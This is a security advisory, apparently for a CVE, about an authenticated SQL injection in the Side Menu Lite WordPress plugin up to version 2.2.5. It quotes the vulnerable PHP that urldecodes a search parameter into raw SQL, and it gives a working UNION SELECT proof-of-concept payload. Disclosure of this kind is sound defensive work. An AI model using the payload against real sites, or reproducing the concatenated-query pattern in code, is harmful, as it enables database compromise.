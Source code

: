 # Side Menu Lite <= 2.2.5 - Authenticated SQL Injection
## Description
    The function get_search() of plugin Side Menu Lite urldecode the user's input data, therefor leading a SQL Injection issue.  
## Affects Plugins
    Side Menu Lite <= 2.2.5 (the latest version at this time)
    https://wordpress.org/plugins/side-menu-lite/
## Author
    pang0lin@webray.com.cn inc 
## Detail
    The issue occured in file \plugins\side-menu-lite\admin\partials\class-list-table.php. The function  get_search() urldecode user's input parameter s.
```
	public function get_search() {
		return ! empty( $_POST['s'] ) ? urldecode( trim( $_POST['s'] ) ) : false;
	}
```
  And it is used in function table_data().
```
	private function table_data() {
		global $wpdb;
		$data   = array();
		$paged  = $this->get_paged();
		$offset = $this->per_page * ( $paged - 1 );
		$search = $this->get_search();

		$table = $this->data;


		if ( ! $search || empty( $search ) ) {
			$result = $wpdb->get_results( "SELECT * FROM " . $table . " order by id desc" );
		} elseif ( is_numeric( $search ) ) {
			$result = $wpdb->get_results( "SELECT * FROM " . $table . " WHERE id=" . $search );
		} else {
			$result = $wpdb->get_results( "SELECT * FROM " . $table . " WHERE title='" . $search
			                              . "' order by id desc" );
		}
    ...
```
  We can see that the variable $search is finnally goes into the SQL query which result the SQL injection.
## Proof of Concept
http://192.168.65.26/wp/wp-admin/admin.php?page=side-menu-lite&tab=list

POST:

s=aaaa%2527 union select 1,user(),3 -- a

![blockchain](https://github.com/pang0lin/CVEproject/blob/main/imgs/wordpress_side-menu-lite_sqli.png "Wordpress plugin side-menu-lite sqli")

